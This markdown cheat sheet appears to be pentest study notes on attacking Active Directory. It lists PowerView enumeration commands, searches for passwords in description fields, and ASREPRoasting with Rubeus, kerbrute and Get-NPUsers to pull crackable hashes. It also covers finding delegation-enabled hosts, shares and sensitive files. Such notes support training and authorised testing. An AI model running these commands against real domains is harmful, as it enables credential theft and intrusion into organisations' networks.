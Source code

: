 ```yaml
---
layout: app
title: "Active Directory"
tags: ["PASSWD_NOTREQD","enumeration","unconstrain delegation","kerberos","Double-hop", "GPO","OU", "finduserdomain","asreproasting"]

---
```


# Create Lab

[https://jesspomfret.com/automatedlab-sql-server/](https://jesspomfret.com/automatedlab-sql-server/)

## Enable PSRemoting

```powershell
Enable-PSRemoting 
```

## Client

### Join To Domain

```powershell
Add-Computer -DomainName lab.com -Credential lab\Administrator -Force -Restart
```

### Connect to Remote Desktop

```powershell
New-PSSession -ComputerName
Start-Service WinRm
Get-Item wsman:\localhost\
Set-Item wsman:\localhost\Client\TrustedHosts -value  192.168.85.130
New-PSSession -ComputerName "IP Address"  -Credential (Get-Credential)
Enter-PSSession <Session Id>

$dc = New-PSSession -ComputerName <IP Address>  -Credential (Get-Credential)
Enter-PSSession $dc
```

# Passwords in Description Field 

```
(PowerView)> Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}
```

# ASREPRoasting

**DONT_REQ_PREAUTH** attribute is set on user account

## Get users with DONT_REQ_PREAUTH attribute

```powershell
(PowerView)> Get-DomainUser -PreauthNotRequired | select samaccountname, userprincipalname, useraccountcontrol | fl
```
```
.\Rubeus.exe asreproast /user:<USER> /nowrap /format:hashcat
```
```bash
kerbrute userenum -d <domain> --dc <Domain IP address> <wordlists>
```
```python
Get-NPUsers.py <DOMAIN/> -dc-ip <Domain IP> -no-pass -usersfile <wordlists>
```

# PASSWD_NOTREQD
[https://blog.icewolf.ch/archive/2011/06/08/how-to-read-the-value-of-ad-attribute-useraccountcontrol/](https://blog.icewolf.ch/archive/2011/06/08/how-to-read-the-value-of-ad-attribute-useraccountcontrol/)

```
(PowerView)> Get-DomainUser -UACFilter PASSWD_NOTREQD | select samaccountname,useraccountcontrol
```


# Double-Hob

## Detect 

```powershell
 Get-AdComputer -Filter {(TrustedForDelegation -eq $True) -And (PrimaryGroupId -eq 515)} -Properties TrustedForDelegation,TrustedForDelegation,servicePrincipalName,Description

Description          :
DistinguishedName    : CN=DESKTOP-1FEQU90,CN=Computers,DC=crtp,DC=lab
DNSHostName          : DESKTOP-1FEQU90.crtp.lab
Enabled              : True
Name                 : DESKTOP-1FEQU90
ObjectClass          : computer
ObjectGUID           : 215830a5-d4df-45c3-8af2-fc6147cb239b
SamAccountName       : DESKTOP-1FEQU90$
servicePrincipalName : {RestrictedKrbHost/DESKTOP-1FEQU90, HOST/DESKTOP-1FEQU90, RestrictedKrbHost/DESKTOP-1FEQU90.crtp.lab, HOST/DESKTOP-1FEQU90.crtp.lab}
SID                  : S-1-5-21-632435846-1015186707-1740185088-1721
**TrustedForDelegation** : True
UserPrincipalName    :

```

[https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)

[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

[https://github.com/tevora-threat/SharpView/](https://github.com/tevora-threat/SharpView/)

# PowerView

[https://powersploit.readthedocs.io/en/latest/Recon](https://powersploit.readthedocs.io/en/latest/Recon/)
[https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1)
## Enumeration

### [AdModule](https://github.com/samratashok/ADModule)

```powershell
Import-Module Microsoft.ActiveDirectory.Management.dll -Verbose
Get-ADDomain
```

### Get Password Policy

```powershell
(Get-DomainPolicyData).SystemAccess

(Get-DomainPolicyData).KerberosPolicy
```

### Get Domain SID

```powershell
Get-DomainSID
```

### Users

```powershell
Get-DomainUser

Get-DomainUser -Identity [username] -Properties *

Get-DomainUser -LdapFilter "Description=*built*" | Select name,Description
```

### Get Group Names of the user
```powershell
Get-DomainGroup -UserName Administrator
```

### Computers
```powershell
Get-DomainComputer
```

### Get Groups

```powershell
Get-DomainGroup 
Get-DomainGroup *admin*
```

#### Get Members of Group

```powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
Get-NetGroupMember Group | Select MemberName
```


# Find Information

## Find domain Admin

Finds domain machines where specific users are logged into.


```powershell
(Powerview.ps1) Find-DomainUserLocation
```

#### Find shares on hosts in current domain

```powershell
Invoke-ShareFinder –Verbose
```

#### Find sensitive files on computers in the domain

```powershell
Invoke-FileFinder –Verbose
```

#### Get all fileservers of the domain
```powershell
Get-NetFileServer
```

# GPO

```powershell
Get-DomainGPO
Get-DomainGPO -ComputerIdentity PC001
```

### Get GPO(s) which use Restricted Groups or groups.xml for interesting users

```powershell
Get-DomainGPOLocalGroup
```

### Get users which are in a local group of a machine using GPO

```powershell
Get-DomainGPOComputerLocalGroupMapping –ComputerIdentity PC01
```

### Get machines where the given user is member of a specific group

```powershell
Get-DomainGPOUserLocalGroupMapping -Identity student1 -Verbose
```


### Get all computers from MachineOU OU
```powershell
(Get-DomainOU -Identity MachineOU).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select Name
```

### ACL

```powershell
Get-DomainObjectAcl -SamAccountName "username" -ResolveGUIDS
Get-DomainObjectAcl -SearchBase "LDAP://CN=Domain Admins, CN=Users,DC=crtp,DC=lab" -ResolveGUIDS
```
```powershell
 Find-InterestingDomainAcl -ResolveGUIDs
 Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "username"}
```


# AllowReversiblePasswordEncryption 

```powershell
Get-ADUser -Filter {AllowReversiblePasswordEncryption -eq "true"} | Select Name, sAMAccountName
```

